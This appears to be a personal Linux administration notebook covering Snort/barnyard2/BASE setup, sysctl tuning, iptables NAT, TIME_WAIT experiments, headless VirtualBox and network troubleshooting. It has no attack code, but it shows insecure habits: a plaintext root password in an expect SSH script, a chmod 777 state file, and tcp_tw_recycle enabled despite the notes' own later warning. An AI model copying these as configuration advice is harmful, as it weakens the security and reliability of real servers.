# vi /etc/snort/snort.conf 

output unified2: filename snort.u2, limit 128 
#+end_example

Installing barnyard2

#+begin_example
# cd /tmp ; wget http://www.securixlive.com/download/barnyard2/barnyard2-1.9.tar.gz 
# tar -xzvf barnyard2-1.9.tar.gz 
# cd barnyard2-1.9 
# ./configure --with-mysql 
# make && make install 
# cp etc/barnyard2.conf /etc/snort/ 
# mysql -u snort -psnortpassword snort < schemas/create_mysql 
# touch /etc/snort/barnyard2.waldo 
# chmod 777 /etc/snort/barnyard2.waldo 
# chown snort:snort /etc/snort/barnyard2.waldo 
#+end_example

- Edit barnyard2 configuration:
#+begin_example
# vi /etc/snort/barnyard2.conf 

config reference_file: /etc/snort/reference.config
config classification_file: /etc/snort/classification.config
config gen_file: /etc/snort/rules/gen-msg.map 
config sid_file: /etc/snort/rules/sid-msg.map 
input unified2 
config hostname: localhost 
config interface: eth0 
config alert_with_interface_name 
output database: log, mysql, user=snort password=snortpassword dbname=snort host=localhost 
#+end_example

Adapting our init script to work with barnyard2
#+begin_example
 # vi /etc/init.d/snortd 

 # /etc/init.d/snortd restart 
#+end_example
Installing BASE
#+begin_example
# cd /tmp ; wget http://sourceforge.net/projects/secureideas/files/latest/download 
# tar -xzvf base-1.4.5.tar.gz 
# cp -r base-1.4.5/ /var/www/base 
# cd /var/www/base/ 
# cp base_conf.php.dist base_conf.php 
#+end_example
- Edit BASE scripts configuration:
#+begin_example
# vi base_conf.php 

$BASE_urlpath = '/base'; 
$DBlib_path = '/usr/share/php/adodb'; 
$alert_dbname = 'snort'; 
$alert_host = 'localhost'; 
$alert_port = '3306'; 
$alert_user = 'snort'; 
$alert_password = 'snortpassword'; 
#+end_example
Configuring Apache

#+begin_example
# vi /etc/httpd/conf.d/base.conf 

Alias /base /var/www/base/
<directory "/var/www/base/"> 
AllowOverride None 
Order allow,deny 
Allow from all 
AuthName "Snort IDS"
AuthType Basic 
AuthUserFile /etc/snort/base.passwd
Require valid-user 
</directory> 
#+end_example

- Generating password file for web access for BASE:
#+begin_example
 # htpasswd -c /etc/snort/base.passwd snortadmin 
#+end_example
- Restart apache:
#+begin_example
 # service httpd restart 
#+end_example

Accessing to the BASE web environment

http://IP-WEB-SERVER/base/base_db_setup.php

and click create BASE AV

* 修改屏幕背景色

To set the "Paper Mode" use:
xcalib -red 1.7 1 64 -green 1.7 1 57 -blue 1.7 1 28 -alter
To (re)set back to "Screen Mode" use:
xcalib -clear

反转颜色
xcalib -invert -alter
* suse linux server黑屏
在黑屏时。按Ctrl+Alt+F2进入另一个shell
* 内核参数
1.内核进程通信参数

1）运行 ipcs -l 命令以列示当前的内核参数设置。
2）分析命令输出， 通过将当前值与内核参数需求 (Linux) 中对版本 9.5 修订包 6 或更高版本修订包的增强最低设置进行比较，从而确定您是否必须更改内核设置。 下列文本是 ipcs 命令输出的示例，注释添加在 // 后面以显示参数名称：

      # ipcs -l

      ------ Shared Memory Limits --------

      max number of segments = 4096               // SHMMNI 
      max seg size (kbytes) = 32768               // SHMMAX
      max total shared memory (kbytes) = 8388608  // SHMALL
      min seg size (bytes) = 1

 

      ------ Semaphore Limits --------
      max number of arrays = 1024                 // SEMMNI
      max semaphores per array = 250              // SEMMSL
      max semaphores system wide = 256000         // SEMMNS
      max ops per semop call = 32                 // SEMOPM
      semaphore max value = 32767

 

      ------ Messages: Limits --------
      max queues system wide = 1024               // MSGMNI
      max size of message (bytes) = 65536         // MSGMAX
      default max size of queue (bytes) = 65536    // MSGMNB
3）通过编辑 /etc/sysctl.conf 文件来修改您必须调整的内核参数。下列各行是该文件中应包含的内容的示例：
# 具有 16GB RAM 的计算机的示例：
kernel.shmmni=4096
kernel.shmmax=17179869184
kernel.shmall=8388608

#kernel.sem=<SEMMSL> <SEMMNS> <SEMOPM> <SEMMNI>
kernel.sem=250 256000 32 4096
kernel.msgmni=16384
kernel.msgmax=65536
kernel.msgmnb=65536


4）运行 sysctl 时附带 -p 参数

 
2.内核网络参数


进入SYN包的最大请求队列.默认1024.对重负载服务器,可调整

net.ipv4.tcp_max_syn_backlog = 65536

 

进入包的最大设备队列.默认是300,对重负载服务器而言,该值太低,可调整

net.core.netdev_max_backlog =  32768

 

listen()的默认参数,挂起请求的最大数量.默认是128.对繁忙的服务器,增加该值有助于网络性能.可调整

net.core.somaxconn = 32768

 

表示发送套接字缓冲区大小的缺省值（以字节为单位）

net.core.wmem_default = 8388608        

 

表示接收套接字缓冲区大小的缺省值（以字节为单位）

net.core.rmem_default = 8388608

 

最大socket读buffer,可参考的优化值：873200

net.core.rmem_max = 16777216

 

最大socket写buffer,可参考的优化值：873200

net.core.wmem_max = 16777216  

 

时间戳可以避免序列号的卷绕。一个1Gbps的链路肯定会遇到以前用过的序列号。时间戳能够让内核接受这种"异常"的数据包。这里需要将其关掉。

net.ipv4.tcp_timestamps = 0

 

为了打开对端的连接，内核需要发送一个SYN并附带一个回应前面一个SYN的ACK.也就是所谓三次握手中的第二次#握手。这个设置决定了内核放弃连接之前发送SYN+ACK包的数量

net.ipv4.tcp_synack_retries = 2

 

在内核放弃建立连接之前发送SYN包的数量

net.ipv4.tcp_syn_retries = 2

 

表示开启TCP连接中TIME-WAIT sockets的快速回收，默认为0,表示关闭

net.ipv4.tcp_tw_recycle = 1

 
net.ipv4.tcp_tw_len = 1

 

表示开启重用。允许将TIME-WAIT sockets重新用于新的TCP连接，默认为0,表示关闭；

net.ipv4.tcp_tw_reuse = 1

 

net.ipv4.tcp_mem = 94500000 915000000 927000000

#net.ipv4.tcp_mem[0]:低于此值，TCP没有内存压力。   

#net.ipv4.tcp_mem[1]:在此值下，进入内存压力阶段。   

#net.ipv4.tcp_mem[2]:高于此值，TCP拒绝分配socket

 

系统中最多有多少个TCP套接字不被关联到任何一个用户文件句柄上。如果超过这个数字，连接将即刻被复位并打#印出警告信息。这个限制仅仅是为了防止简单的DoS攻击，不能过分依靠它或者人为地减小这个值，更应该增加这个值（如果增加了内存之后）。

net.ipv4.tcp_max_orphans = 3276800

 

#net.ipv4.tcp_fin_timeout = 30

#net.ipv4.tcp_keepalive_time = 120

 

表示用于向外连接的端口范围。缺省情况下很小

net.ipv4.ip_local_port_range = 1024  65535

 

代表机器跟踪连接的数目

net.ipv4.ip_conntrack_max=655360

net.ipv4.netfilter.ip_conntrack_max=655360

net.nf_conntrack_max=655360

net.netfilter.nf_conntrack_max=655360
* iptables NAT配置
** SNAT：源地址转换
目标地址不变，重新改写源地址，并在本机建立NAT表项，当数据返回时，根据NAT表将目的地址数据改写为数据发送出去时候的源地址，并发送给主机
目前大多都是解决内网用户用同一个公网地址上网的情况

** DNAT：目标地址转换

和SNAT相反，源地址不变，重新修改目标地址，在本机建立NAT表项，当数据返回时，根据NAT表将源地址修改为数据发送过来时的目标地址，并发给远程主机
在DNAT的基础上，可以根据请求数据包的端口做PNAT（端口转换，也称为端口映射），可以更句请求数据包不同的端口改写不同的目标地址，从而发送给不同的主机
这在用一个公网地址做不同服务时用的比较多，而且相对来说，用NAT的方式可以隐藏后端服务器的真实地址，更加的安全

完成nat的实现，数据要经过prerouting—forword--postrouting这3个链

** SNAT的数据流向过程

首先进入prerouting，发现不是本网段的地址，而后开始查找路由表（查找路由的过程在prerouting和forword之间），
于是经过forword链进行转发，在通过postrouting时进行NAT转换。
在这个流程中，NAT转换的步骤在postrouting链上实现，之所以不再prerouting上做nat是因为数据包在进来之前，还不知道是本网段地址还是外网地址
 
** DNAT的数据流向过程

在DNAT中，NAT要在prerouting链上做。之前提到过，在数据进入主机后，路由选择过程是在prerouting和forword之间的，
所以应该先做地址转换之后，再进行路由选择，而后经过forword，最后从postrouting出去

** SNAT 实验

*在做nat之前，要先把路由功能打开，不然数据包连forword都过不了*

[root@localhost ~]# echo 1 > /proc/sys/net/ipv4/ip_forward

添加nat表项
[root@localhost ~]# iptables -t nat -A POSTROUTING -s 172.16.93.0/24  -j SNAT --to-source 10.0.0.1
表示在postrouting链上，将源地址为172.16.93.0/24网段的数据包的源地址都转换为10.0.0.1

** 删除
   iptables -L -t nat --line-numbers
   使用--line-numbers显示chain-num

   iptables -t nat -D POSTROUTING 1 
   删除chain-num为1的规则
** DNAT
 
在DNAT中，要把规则定义在PREROUTING链中

iptables -t nat -A PREROUTING -d 10.0.0.1 -j DNAT –-to-destination 172.16.93.1
此条规则将请求IP为10.0.0.1的数据包转发到后端172.16.93.1主机上

iptables -t nat -A PREROUTING -d 10.0.0.1 -p tcp --dport 80 -j DNAT --to-destination 172.16.93.1
此条规则将请求IP为10.0.0.1并且端口为80的数据包转发到后端的172.16.93.1主机上，通过定义不同的端口，就可以实现PNAT，将同一个IP不同的端口请求转发到后端不同的主机

iptables -t nat -A PREROUTING -d 10.0.0.1 -p tcp --dport 80 -j DNAT --to-destination 172.16.93.1:8080
此条规则在上条规则的基础上，发往后端的数据包的目标端口改为8080，在后端主机的web服务器上使用8080端口接收访问， 这样能更好的保护后端主机

** 使用SNAT上网
*在做nat之前，要先把路由功能打开，不然数据包连forword都过不了*

[root@localhost ~]# echo 1 > /proc/sys/net/ipv4/ip_forward
公司上外网需要进入windows域，而且有各种限制。
所以同事就采用了SNAT在一台有外网IP的机器上设置上网代理


其中172.16.132.189是可以直接通过路由器上网的IP
我们在eth0:1上设置虚IP 192.168.0.86

linux-19:~ # ifconfig
eth0      Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B3  
          inet addr:172.16.132.189  Bcast:172.16.132.189  Mask:255.255.255.0
          inet6 addr: fe80::21e:4fff:fe37:40b3/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:673852 errors:0 dropped:4 overruns:0 frame:0
          TX packets:532089 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:84927257 (80.9 Mb)  TX bytes:290095285 (276.6 Mb)
          Interrupt:16 Memory:f8000000-f8012800 

eth0:1    Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B3  
          inet addr:192.168.0.86  Bcast:192.168.0.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          Interrupt:16 Memory:f8000000-f8012800 

eth1      Link encap:Ethernet  HWaddr 00:1E:4F:37:40:B5  
          inet addr:10.0.64.19  Bcast:10.0.64.255  Mask:255.255.255.0
          inet6 addr: fe80::21e:4fff:fe37:40b5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:48566313 errors:0 dropped:215 overruns:0 frame:0
          TX packets:46589089 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:19627285431 (18718.0 Mb)  TX bytes:13694263195 (13059.8 Mb)
          Interrupt:16 Memory:f4000000-f4012800 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:26472624 errors:0 dropped:0 overruns:0 frame:0
          TX packets:26472624 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:5729228159 (5463.8 Mb)  TX bytes:5729228159 (5463.8 Mb)

代理通过路由器172.16.132.3上网
linux-19:~ # route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         172.16.132.3    0.0.0.0         UG    0      0        0 eth0
10.0.64.0       *               255.255.255.0   U     0      0        0 eth1
loopback        *               255.0.0.0       U     0      0        0 lo
172.16.132.0    *               255.255.255.0   U     0      0        0 eth0
192.168.0.0     *               255.255.255.0   U     0      0        0

配置SNAT的结果

10.0.64.0/24是一个内部服务器网络，仍然需要访问，
所以第一条策略单独配置了。
linux-19:~ # iptables -L -n -t nat
...
Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         
SNAT       all  --  0.0.0.0/0            10.0.0.0/8          to:10.0.64.19 
SNAT       all  --  192.168.0.0/24       0.0.0.0/0           to:172.16.132.189 
SNAT       all  --  192.168.86.0/24      0.0.0.0/0           to:172.16.132.189 
SNAT       all  --  192.168.100.0/24     0.0.0.0/0           to:172.16.132.189


最后，我使用的机器将IP设置为192.168.0.109，网关设置为192.168.0.86
现在就可以自由的上网了。

** 使用DNAT对外开放服务
在10.0.64.19上有外网IP，我们希望通过该外网IP开放6006端口

在10.0.64.19上：
iptables -t nat -A PREROUTING  -p tcp --dport 6006 -j DNAT --to-destination 10.0.64.18:6006

在10.0.64.18上
route add default gw 10.0.64.19

* TIME_WAIT状态是否占用文件描述符

Each socket in TIME_WAIT consumes some memory in the kernel, usually somewhat less than an ESTABLISHED socket yet still significant. A sufficiently large number could exhaust kernel memory, or at least degrade performance because that memory could be used for other purposes. TIME_WAIT sockets do not hold open file descriptors (assuming they have been closed properly), so you should not need to worry about a "too many open files" error.

The socket also ties up that particular src/dst IP address and port so it cannot be reused for the duration of the TIME_WAIT interval. (This is the intended purpose of the TIME_WAIT state.) Tying up the port is not usually an issue unless you need to reconnect a with the same port pair. Most often one side will use an ephemeral port, with only one side anchored to a well known port. However, a very large number of TIME_WAIT sockets can exhaust the ephemeral port space if you are repeatedly and frequently connecting between the same two IP addresses. Note this only affects this particular IP address pair, and will not affect establishment of connections with other hosts.

编写测试程序链接建立一个TCP链接，然后断开该链接，如此反复。
不断创建TIME_WAIT状态的socket。
#+begin_src c
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <stdio.h>
#include <strings.h>

int main(int argc,char *args[])
{
    int socket_descriptor;
    int port = 8080;
    struct sockaddr_in pin;
    int count = 0;
    while(1) {
        pin.sin_family = AF_INET;
        pin.sin_addr.s_addr = inet_addr("10.0.64.18");
        pin.sin_port = htons(port);
        bzero(&(pin.sin_zero), 8);

        socket_descriptor = socket(AF_INET, SOCK_STREAM, 0);
        if(connect(socket_descriptor, (void *)&pin, sizeof(pin))==-1)
        {
            perror("connect");
        }
        close(socket_descriptor);
        count++;
        if(count%1000 == 1) {
            sleep(1);
        }
    }
    return 0;
}
#+end_src

然后查看打开文件句柄数
cat /proc/sys/fs/file-nr
(file-nr含义见Documentation/filesystems/proc.txt)
代码见file_table.c: int proc_nr_files(...)
发现file-nr并不增长


将生成TIME_WAIT频率加快。
connect就是返回错误信息
connect: Cannot assign requested address

由于占用的端口号超过了61000-32768
net.ipv4.ip_local_port_range = 32768	61000


TIME_WAIT不占用file-nr的原因:
在于用户态程序调用了close()
sys_close()调用，释放了file描述符，
sys_close()->filp_close()->fput()
* ifconfig看不到ip命令设置的地址
  ip addr show
* strace 看libxx.so加载的路径
  ./network_monitor: error while loading shared libraries: libutils.so: cannot open shared object file: No such file or directory

  strace ./network_monitor
* HTTPS的工作原理
HTTPS在传输数据之前需要客户端（浏览器）与服务端（网站）之间进行一次握手，在握手过程中将确立双方加密传输数据的密码信息。
TLS/SSL协议不仅仅是一套加密传输的协议，更是一件经过艺术家精心设计的艺术品，TLS/SSL中使用了非对称加密，对称加密以及HASH算法。握手过程的简单描述如下：
1.浏览器将自己支持的一套加密规则发送给网站。
2.网站从中选出一组加密算法与HASH算法，并将自己的身份信息以证书的形式发回给浏览器。证书里面包含了网站地址，加密公钥，以及证书的颁发机构等信息。
3.获得网站证书之后浏览器要做以下工作：
a) 验证证书的合法性（颁发证书的机构是否合法，证书中包含的网站地址是否与正在访问的地址一致等），如果证书受信任，则浏览器栏里面会显示一个小锁头，否则会给出证书不受信的提示。
b) 如果证书受信任，或者是用户接受了不受信的证书，浏览器会生成一串随机数的密码，并用证书中提供的公钥加密。
c) 使用约定好的HASH计算握手消息，并使用生成的随机数对消息进行加密，最后将之前生成的所有信息发送给网站。
4.网站接收浏览器发来的数据之后要做以下的操作：
a) 使用自己的私钥将信息解密取出密码，使用密码解密浏览器发来的握手消息，并验证HASH是否与浏览器发来的一致。
b) 使用密码加密一段握手消息，发送给浏览器。
5.浏览器解密并计算握手消息的HASH，如果与服务端发来的HASH一致，此时握手过程结束，之后所有的通信数据将由之前浏览器生成的随机密码并利用对称加密算法进行加密。
* python matplotlib画图
* gearman
* Linux下程序无core文件定位程序崩溃的方法

Linux平台下运行程序，程序出错core掉，设置了ulimit -c会产生core文件，根据生成的core文件和程序很容易定位程序哪里出了问题。如果在生产环境，可能会存在以下几种情况不能生成core文件
    忘记设置ulimit -c
    生成的core文件太大，磁盘不能写入，或者磁盘空间已满
    误删除
    其它

如果出现了不能产生core文件的情况，可以通过以下两种方法定位：

1.addr2line方法

如果我们在编译的时候加了-g，可以直接用addr2line直接定位到程序哪一行出错了

备注: 08048484是程序core掉时的EIP值，通过系统日志获取形式如下

Sep  3 10:15:46 localhost kernel: a.out[19254]: segfault at 0 ip 08048484 sp bfa86ff0 error 6 in a.out[8048000+1000]

命令:
   addr2line -e a.out 08048484

运行结果:
   /home/woody/demo/testcore.cpp:6

2.如果在编译的时候没有加上-g选项，addr2line就不起作用了，这时可以通过反汇编可执行程序定位
命令：
   objdump -d a.out > a.asm
打开生成的汇编文件a.asm
* 自动登录ssh
  由于最近每天都使用ssh登录到服务器上调试程序，
  看N多SSH窗口，每次都输入密码，累。
  于是使用expect,写脚本如下：
#+begin_example
#!/usr/bin/expect -f
set ip 10.0.64.18
set password root
set timeout 10
spawn ssh root@$ip
expect {
    "*yes/no" { send "yes\r"; exp_continue}
    "*password:" { send "$password\r" }
}
expect "#*"
#进入代码目录
send "cd /home/yxf/Compile/code/HSS\r"
#交互模式,用户会停留在远程服务器上面.
interact
#+end_example
* svn 批量添加啊
    svn st | awk '{if ( $1 == "?") { print $2}}' | xargs svn add  
* gnome mount sftp
  在同步本地源码和ssh服务器上的代码时，
  可以使用gnome, file->connect to server
  将ssh的文件mount到本地，使用beycond compare进行对比
* linux svn图形工具
  rabbitvcs
* How to create and start VirtualBox VM without GUI
** Prerequisite for starting VirtualBox VM without GUI

First, you need to install VirtualBox Extension Pack. The Extension Pack is needed to run a VRDE remote desktop server used to access headless VMs. Its binary is available for free. To download and install VirtualBox Extension Pack:
$ wget http://download.virtualbox.org/virtualbox/4.2.12/Oracle_VM_VirtualBox_Extension_Pack-4.2.12-84980.vbox-extpack
$ sudo VBoxManage extpack install ./Oracle_VM_VirtualBox_Extension_Pack-4.2.12-84980.vbox-extpack

Verify that the Extension Pack is successfully installed, by using the following command.
$ VBoxManage list extpacks

Extension Packs: 1
Pack no. 0:   Oracle VM VirtualBox Extension Pack
Version:      4.2.12
Revision:     84980
Edition:      
Description:  USB 2.0 Host Controller, VirtualBox RDP, PXE ROM with E1000 support.
VRDE Module:  VBoxVRDP
Usable:       true 
Why unusable: 

** Create a VirtualBox VM from the command line

I assume that the VirtualBox' VM directory is located in "~/VirtualBox\ VMs".

First create a VM. The name of the VM is "testvm" in this example.
$ VBoxManage createvm --name "testvm" --register

Specify the hardware configurations of the VM (e.g., Ubuntu OS type, 1024MB memory, bridged networking, DVD booting).
$ VBoxManage modifyvm "testvm" --memory 1024 --acpi on --boot1 dvd --nic1 bridged --bridgeadapter1 eth0 --ostype Ubuntu

Create a disk image (with size of 10000 MB). Optionally, you can specify disk image format by using "--format [VDI|VMDK|VHD]" option. Without this option, VDI image format will be used by default.
$ VBoxManage createvdi --filename ~/VirtualBox\ VMs/testvm/testvm-disk01.vdi --size 10000

Add an IDE controller to the VM.
$ VBoxManage storagectl "testvm" --name "IDE Controller" --add ide

Attach the previously created disk image as well as CD/DVD drive to the IDE controller. Ubuntu installation ISO image (found in /iso/ubuntu-12.04.1-server-i386.iso) is then inserted to the CD/DVD drive.
$ VBoxManage storageattach "testvm" --storagectl "IDE Controller" --port 0 --device 0 --type hdd --medium ~/VirtualBox\ VMs/testvm/testvm-disk01.vdi
$ VBoxManage storageattach "testvm" --storagectl "IDE Controller" --port 1 --device 0 --type dvddrive --medium /iso/ubuntu-12.04.1-server-i386.iso

** Start VirtualBox VM from the command line

Once a new VM is created, you can start the VM headless (i.e., without VirtualBox console GUI) as follows.
$ VBoxHeadless --startvm "testvm" &

The above command will launch the VM, as well as VRDE remote desktop server. The remote desktop server is needed to access the headless VM's console.

By default, the VRDE server is listening on TCP port 3389. If you want to change the default port number, use "-e" option as follows.
$ VBoxHeadless --startvm "testvm" -e "TCP/Ports=4444" &

If you don't need remote desktop support, launch a VM with "--vrde off" option.
$ VBoxHeadless --startvm "testvm" --vrde off &

** Connect to headless VirtualBox VM via remote desktop

Once a VM is launched with remote desktop support, you can access the VM's console via any remote desktop client (e.g., rdesktop).

To install rdesktop on Ubuntu or Debian:
$ sudo apt-get install rdesktop

To install rdesktop on CentOS, RHEL or Fedora, configure Repoforge on your system, and then run the following.
$ sudo yum install rdesktop

To access a headless VM on a remote host machine, run the following.
$ rdesktop -a 16 <IP_address_host_machine>

If you use a custom port number for a remote desktop server, run the following instead.
$ rdesktop -a 16 <IP_address_host_machine:port_number>

Once rdesktop is successfully connected to the VM via remote desktop, you will see the initial installation screen.
* nginx用光local port
2014/04/24 12:22:53 [crit] 1120#0: *17024380925 connect() to 192.168.2.150:8088 failed (99: Cannot assign requested address) while connecting to upstream, client: 123.14.145.99, server: , request: "POST /aaa/app_signon HTTP/1.1", upstream: "http://192.168.2.150:8088/aaaopenapi?action=aaa&cmd=app_signon", host: "api.hismarttv.com:8080"

需要调整net.ipv4.ip_local_port_range参数
* recv() hang 程序
  socket没有设置recv timeout
* tcp_timestamp引发的问题
    近来线上陆续出现了一些connect失败的问题，经过分析试验，最终确认和proc参数tcp_tw_recycle/tcp_timestamps相关；
1. 现象
    第一个现象：模块A通过NAT网关访问服务S成功，而模块B通过NAT网关访问服务S经常性出现connect失败，抓包发现：服务S端已经收到了syn包，但没有回复synack；另外，模块A关闭了tcp timestamp，而模块B开启了tcp timestamp；
    第二个现象：不同主机上的模块C（开启timestamp），通过NAT网关（1个出口ip）访问同一服务S，主机C1 connect成功，而主机C2 connect失败；

2. 分析
    根据现象上述问题明显和tcp timestmap有关；查看linux 2.6.32内核源码，发现tcp_tw_recycle/tcp_timestamps都开启的条件下，60s内同一源ip主机的socket connect请求中的timestamp必须是递增的。
    源码函数：tcp_v4_conn_request(),该函数是tcp层三次握手syn包的处理函数（服务端）；
    源码片段：
       if (tmp_opt.saw_tstamp &&
            tcp_death_row.sysctl_tw_recycle &&
            (dst = inet_csk_route_req(sk, req)) != NULL &&
            (peer = rt_get_peer((struct rtable *)dst)) != NULL &&
            peer->v4daddr == saddr) {
            if (get_seconds() < peer->tcp_ts_stamp + TCP_PAWS_MSL &&
                (s32)(peer->tcp_ts - req->ts_recent) >
                            TCP_PAWS_WINDOW) {
                NET_INC_STATS_BH(sock_net(sk), LINUX_MIB_PAWSPASSIVEREJECTED);
                goto drop_and_release;
            }
        }
        tmp_opt.saw_tstamp：该socket支持tcp_timestamp
        sysctl_tw_recycle：本机系统开启tcp_tw_recycle选项
        TCP_PAWS_MSL：60s，该条件判断表示该源ip的上次tcp通讯发生在60s内
        TCP_PAWS_WINDOW：1，该条件判断表示该源ip的上次tcp通讯的timestamp 大于 本次tcp

    分析：主机client1和client2通过NAT网关（1个ip地址）访问serverN，由于timestamp时间为系统启动到当前的时间，因此，client1和client2的timestamp不相同；根据上述syn包处理源码，在tcp_tw_recycle和tcp_timestamps同时开启的条件下，timestamp大的主机访问serverN成功，而timestmap小的主机访问失败；

    参数：/proc/sys/net/ipv4/tcp_timestamps - 控制timestamp选项开启/关闭
          /proc/sys/net/ipv4/tcp_tw_recycle - 减少timewait socket释放的超时时间

    如果客户端是NAT出来的，并且我们server端有打开tcp_tw_recycle ,并且time stamp也没有关闭，那么假设第一个连接进来，然后关闭，此时这个句柄处于time wait状态，然后很快(小于60秒)又一个客户端(相同的源地址，如果打开了xfrm还要相同的端口号)发一个syn包，此时linux内核就会认为这个数据包异常的，因此就会丢掉这个包,并发送rst。

而现在大部分的客户端都是NAT出来的，因此建议tw_recycle还是关闭,或者说server段关闭掉time stamp(/proc/sys/net/ipv4/tcp_timestamps).

3. 解决方法
    echo 0 > /proc/sys/net/ipv4/tcp_tw_recycle;
    tcp_tw_recycle默认是关闭的，有不少服务器，为了提高性能，开启了该选项；
    为了解决上述问题，个人建议关闭tcp_tw_recycle选项，而不是timestamp；因为 在tcp timestamp关闭的条件下，开启tcp_tw_recycle是不起作用的；而tcp timestamp可以独立开启并起作用。
    源码函数：  tcp_time_wait()
    源码片段：
        if (tcp_death_row.sysctl_tw_recycle && tp->rx_opt.ts_recent_stamp)
            recycle_ok = icsk->icsk_af_ops->remember_stamp(sk);
        ......
       
        if (timeo < rto)
            timeo = rto;

        if (recycle_ok) {
            tw->tw_timeout = rto;
        } else {
            tw->tw_timeout = TCP_TIMEWAIT_LEN;
            if (state == TCP_TIME_WAIT)
                timeo = TCP_TIMEWAIT_LEN;
        }

        inet_twsk_schedule(tw, &tcp_death_row, timeo,
                   TCP_TIMEWAIT_LEN);

    timestamp和tw_recycle同时开启的条件下，timewait状态socket释放的超时时间和rto相关；否则，超时时间为TCP_TIMEWAIT_LEN，即60s；

    内核说明文档 对该参数的介绍如下：
    tcp_tw_recycle - BOOLEAN
    Enable fast recycling TIME-WAIT sockets. Default value is 0.
    It should not be changed without advice/request of technical
    experts.
* c++ tr1 functional
#+begin_src c++
#include <iostream>
#include <string>
#include <tr1/functional>

using namespace std;
struct A {
    A(const std::string& n) : name_(n) {}
    void printit(const std::string& s) 
    {
        std::cout << name_ << " says " << s << std::endl;
    }
private:
    const std::string name_;
};

int main()
{
    A a("Joe");
    std::tr1::function<void(const std::string&)> f = std::tr1::bind(&A::printit, &a, std::tr1::placeholders::_1);
    f("Hi");
    std::tr1::function<void(struct A*)> g = std::tr1::bind(&A::printit, std::tr1::placeholders::_1, "hello");
    g(&a);
}
#+end_src
* C/C++ 减少问题办法
  使用工具
** pc-lint进行代码静态检查 
** valgrind进行代码内存检查 [[valgrind]]
* 检查内存泄漏
  1. valgrind 见 [[valgrind]]

  2. glic函数 malloc_stats()

* ext3 文件恢复
  工具 ext3undelete
* XEN 虚拟机中LVS realserver
  运维部门要使用使用两台物理中的两个虚拟机当作realserver
  一个物理机有一个虚拟机。
  使用LVS tunnel方式。
  在虚拟机中按照物理机一样配置方式配置realserver
  （创建tunl0口，设置tunl0口IP等等）
  就可以了。

** TODO  xen是怎样做到呢？

  显然我们在虚拟机内配置tunl0口时，物理机知道了虚拟机的配置信息：tunl0口的IP信息。
  否则虚拟机不会通过tunl0口实现LVS
* How golang deal with epoll Supporting
  src/pkg/net/fd_poll_runtime.go
* web服务网络拥塞
  监控系统发现生产环境上大量的请求无法响应，被怀疑是LVS和nginx的不能及时转发数据。
  经过查看没有发现问题。
  后来通过现场的我们开发的流量监控工具，看到高峰期的每秒链接请求数、每秒数据包数的曲线，
  在高峰期变成了水平的状态，而正常时应该程抛物线状。
  
  又知道现场的网络部署有监控系统，而改监控系统观测的服务都是正常的。
  两个监控系统的关键差异是外网经过了生产的防火墙。所以初步推断为防火墙的问题。

  后来经证实是防火墙到达其所支持的最大链接数(session) 75万。

  而防火墙上设置tcp链接的超时时间为1小时，半链接超时时间为10分钟。
  保守其见，我让人将两者的超时时间改为原来的一半。
  晚上到了高峰期，结果虽然防火墙链接达到上限的时间得到延迟，但是最后session还被占满了。

  最后发现原因是IDC机房限制了出口的流量，当流量超过上限时，就进行丢包。

  还有一个问题是零晨1点，不是用户的高峰期，但是仍然后大量链接请求，导致流量一直下不来。
  终端不断重试，由于入口流量未达到上限，终端发送的请求总能收到，并且服务端能够处理，
  并且试图向终端发送响应，但是超过出口的流浪限制，响应的数据包被丢弃。服务端的协议栈会尝试继续重发，
  也增大的整个网络出口的数据量。
** 解决办法
*** 指数规避
  终端API如果采用指数避让（exponential backoff）
  1.Make a request to the API.
  2.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  3.Wait 1 + random_number_milliseconds seconds and retry the request.
  4.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  5.Wait 2 + random_number_milliseconds seconds, and retry the request.
  6.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  7.Wait 4 + random_number_milliseconds seconds, and retry the request.
  8.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  9.Wait 8 + random_number_milliseconds seconds, and retry the request.
  10.Receive an HTTP 403 rate-limited response, which indicates you should retry the request.
  11.Wait 16 + random_number_milliseconds seconds, and retry the request.
  12.Stop. Report or log an error.

  In the above flow, random_number_milliseconds is a random number of milliseconds less than or equal to 1000.
  This is necessary to avoid certain lock errors in some concurrent implementations. 
  The value of random_number_milliseconds must be redefined after each wait.

  另外需要服务端支持服务队列超过上限时，对客户端返回http 403错误。

客户端示例代码，来自google drive SDK说明
#+begin_src python
import random
import time
from apiclient.errors import HttpError

def makeRequestWithExponentialBackoff(analytics):
  """Wrapper to request Google Analytics data with exponential backoff.

  The makeRequest method accepts the analytics service object, makes API
  requests and returns the response. If any error occurs, the makeRequest
  method is retried using exponential backoff.

  Args:
    analytics: The analytics service object

  Returns:
    The API response from the makeRequest method.
  """
  for n in range(0, 5):
    try:
      return makeRequest(analytics)

    except HttpError, error:
      if error.resp.reason in ['userRateLimitExceeded', 'quotaExceeded']:
        time.sleep((2 ** n) + random.random())

  print "There has been an error, the request never succeeded."

#+end_src

**
*** nginx 请求限制
    针对超标的请求，返回失败，终端根据错误码，采用指数规避。
*** 启用压缩
    减少出口数据的带宽
* ulimit core dump
How do I enable core dumps for everybody
** Overview

    In most Linux Distributions core file creation is disabled by default for a normal user. However, it can be necessary to enable this feature for an application (e.g. Oracle). For example, if you encounter an ORA-7445 error in Oracle, then it must be possible to write a core file for the user «oracle».

    To enable writing core files you use the ulimit command, it controls the resources available to a process started by the shell, on systems that allow such control.

    If you try to enable writing core files, usually you run in the following problem. Normally SSH is used to logon to the server.

